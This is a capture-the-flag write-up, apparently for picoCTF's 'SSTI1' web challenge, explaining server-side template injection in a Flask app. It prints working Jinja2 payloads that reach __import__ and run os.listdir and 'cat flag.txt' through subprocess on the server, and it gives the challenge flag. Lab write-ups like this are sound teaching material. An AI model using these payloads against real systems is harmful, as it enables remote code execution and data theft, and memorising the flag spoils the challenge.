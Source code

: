 # SSTI1
I made a cool website where you can announce whatever you want! Try it out!

I heard templating is a cool and modular way to build web apps! Check out my website!

> [!NOTE]
> You'll need to launch the challenge instance in PicoGym.
> In this directory, you'll find the same website setup in `app.py`.
>
> To run the application locally, execute the following:
> 1. `pip install --requirement requirements.txt`
> 1. `flask run`
>
> After your app is running locally, you could solve the challenge.


# Solution
This challenge introduces you to server side template rendering, Python built-in functions, and remote code execution on the server.

I began by inspecting the code in the browsers DevTool. Very quickly I realized that this application has a straightforward form,
thus the user provided input field is where I should focus my efforts.

At this time, I did not know anything about [Server Side Template Injections](https://en.wikipedia.org/wiki/Code_injection#Server_Side_Template_Injection), however by putting `{{self}}` in the forms input field and getting `<TemplateReference None>` as the output made me realize that the backend is in `Python`.


Next I learned that in Python, `__globals__` is an attribute of a function that provides a dictionary of all the variables accessible from that functions scope. Considering that I know `self` exists, and each python class has the `__init__` constructor function, I tried `{{self.__init__.__globals__}}`. This resulted in a large list of functions and variables that I could call and access. Very quickly I saw `__import__` in the output.

> The `__import__` function is a python built-in function that provides a mechanism for dynamically importing modules.

The called `listdir()` to get a list of all the files on the server:

```html
</h1><pre>{{self.__init__.__globals__.__builtins__.__import__('os').listdir()}}</pre><h1>
```

```python
['README.md', 'requirements.txt', 'flag.txt', 'app.py']
```

Great, I see that the `flag.txt` file exists. Now I just have to output the contents of that file:

```html
</h1><pre>{{self.__init__.__globals__.__builtins__.__import__('subprocess').run(['cat', 'flag.txt'], capture_output=True, text=True).stdout}}</pre><h1>
```


# Flag

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}`


# Hints

1. Server Side Template Injection